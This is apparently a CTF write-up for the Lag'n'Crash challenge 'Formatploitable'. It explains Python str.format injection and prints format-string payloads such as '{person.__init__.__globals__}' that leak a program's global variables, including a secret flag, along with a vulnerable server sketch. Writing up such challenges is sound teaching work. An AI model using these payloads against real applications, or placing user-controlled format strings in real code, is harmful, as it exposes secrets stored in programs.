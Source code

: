 ```yaml
---
title: "Lag'n'Crash CTF: Formatploitable"
date: "2021-03-14T08:13:21Z"
description: "Write-up for Lag'n'Crash CTF challenge, Formatploitable"
---
```

# Challenge Overview
[_Skip to solution_](#solution)

This challenge is under the Misc category.
> Our intel says that the flag is a global variable in this python program, yet we cannot retrieve it through normal means.
>
> nc challenge1.lagncrash.com 13028

Connecting to the server we are presented with four options.
```
Welcome to Rafale 1.0!
1) Create profile
2) View badge
3) Patch Notes
4) Exit
```

**Create profile**:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
Hi, I'm Dave
```

**View badge**:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : Hi, I'm Dave
╚════════════════════════════════════════════════
```

**Patch Notes**:
```
(picked option 3)
Update 1.0.94795585:
The choice to format your profile has been added!

Example profile: Hi! Im {}, nice to meet you!

Further implementations coming soon!
```

# Solution
This challenge attempts to demonstrate the unsafe nature of Python's `.format()`.
Behind the scenes, the profile is displayed by a script similar to:
```python
class Person:
    def __init__(self, name, profile):
        self.name = name
        self.profile = profile


# Note that s is a socket
# When creating a profile:
name_format = s.recv(1024)
profile_format = s.recv(1024)
person = Person(name_format, profile_format)

# When displaying the profile
name = name_format.format(person=person)
s.sendall(name)
profile = profile_format.format(person=person)
s.sendall(profile)
```

We are expected to guess that the data is formatted using the `person` keyword
argument. Then, using the `Person` object, we access the global variables using
`__globals__`:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{person.__init__.__globals__}
```
Then, view our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7b70094d00>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'Formatploitable.py', '__cached__': None, 'CONFIG': {'FLAG': '{sTr1ng_f0rm4tT1nG_xpl0it3d}'}, 'Person': <class '__main__.Person'>, 'cont': True, 'choice': '2', 'person': <__main__.Person object at 0x7f7b6ffaccd0>}
╚════════════════════════════════════════════════
```

So we can see the flag is `LNC{sTr1ng_f0rm4tT1nG_xpl0it3d}`.

# Explanation and other possibilities
## 1. Keyword arguments vs positional arguments
Personally, I had a lot of trouble finding the word that was used because I did
not expect to guess the keyword argument used.

The vulnerability demonstrated here can also be shown through positional
arguments:
```python
# When displaying the profile
name = name_format.format(person)
s.sendall(name)
profile = profile_format.format(person)
s.sendall(profile)
```
Then, the payload will need to be adjusted to:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{0.__init__.__globals__}
```

## 2. `__globals__` is only accessible by user-defined functions and imported functions
It should be noted that if the given code used is:
```python
# When displaying the profile
name = name_format.format(person.name)
s.sendall(name)
profile = profile_format.format(person.profile)
s.sendall(profile)
```

It is not possible to access the global variables. This is because `__globals__`
is a special attribute given to all [user-defined functions](https://docs.python.org/3/reference/datamodel.html#index-34)
and all [imported functions](https://docs.python.org/3/reference/datamodel.html#index-42).

For example, we have already seen a user-defined function (technically _method_)
in the `Person` object. The same problem will arise for functions:
```python
def hello():
    pass

print(hello.__globals__)
```

Likewise, for imported functions:
```python
import base64
print(base64.b64encode.__globals__)
```
Imported functions will display the `__globals__` for their module.
